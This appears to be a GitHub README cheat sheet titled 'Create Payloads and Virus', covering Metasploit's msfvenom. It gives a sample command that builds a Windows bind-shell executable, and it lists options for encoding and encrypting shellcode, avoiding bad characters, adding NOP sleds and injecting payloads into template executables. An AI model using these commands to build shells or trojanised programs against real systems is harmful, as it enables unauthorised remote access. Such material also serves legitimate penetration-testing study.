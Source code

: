 <img src="https://github.com/dewebdes/CYBER-MILITARY-GERMANY/blob/master/Metasploit/msfvenom/msfvenom.jpg" />
<h1>Create Payloads and Virus</h1>
<h2>MSFVenom is new and combine msfpayload, encrypts & others together</h2>
<h3>Sample usage</h3>
<code>msfvenom -p windows/shell_bind_tcp LPORT=1337 LHOST=<IP> -f exe -o bindshell.exe</code>
<p>
<h3>Get the list of <b>msfvenom</b> Algorithms & Options, all for all options and others for filter results </h3>
<code>
msfvenom -l [payloads,encoders,nops,platforms,archs,encrypt,formats,all]
</code>
</p>
<p>
<code>msfvenom -p linux/x86/shell_bind_ipv6_tcp --list-options</code>
	<br><b>show target payload options</b>
</p>
<p>
	<code>msfvenom -f [format-name]</code>
<h4>Raw Payload -> Encoder -> Formatting -> Output</h4>
</p>	
<p>
	-e, --encoder         <encoder>  The encoder to use (use --list encoders to list)<br>
        &tab;--sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string<br>
        --smallest                   Generate the smallest possible payload using all available encoders<br>
        <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_5-common-encryption-algorithms-and-the-unbreakables-activity-6674037546470780928-GkvA">--encrypt</a>         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)<br>
        --encrypt-key     <value>    A key to be used for --encrypt<br>
        --encrypt-iv      <value>    An initialization vector for --encrypt<br>
	</p>
	<p>
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)<br>
        --platform        <platform> The platform for --payload (use --list platforms to list)<br>
		</p>
		<p>
    -o, --out             <path>     Save the payload to a file
			</p>
    <p>
	    -b, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_bad-char-hacking-activity-6674042570320039936-8InL">--bad-chars</a>       <list>     Characters to avoid example: '\x00\xff'
	    </p>
	    <p>
    -n, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_blackhat-hacker-lessons-activity-6674044482788450304-mXPf">--nopsled</a>         <length>   Prepend a nopsled of [length] size on to the payload<br>
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
		    </p>
    <p>
	    -s, --space           <length>   The maximum size </p>
	    <p>-c, --add-code        <path>     Specify an additional win32 shellcode file to include</p>
    <p>-x, --template        <path>     Specify a custom executable file to use as a template</p>
    <p>-k, --keep                       Preserve the --template behaviour and inject the payload as a new thread</p>
    <p>-v, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_blackhat-hacking-lessons-activity-6674051666335158272-ZrT2">--var-name</a>        <value>    Specify a custom variable name to use for certain output formats</p>
    <p>-t, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_rapid7metasploit-framework-activity-6674053418291732480-eaeS">--timeout</a>         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)</p>
    <p>-h, --help                       Show this message</p>
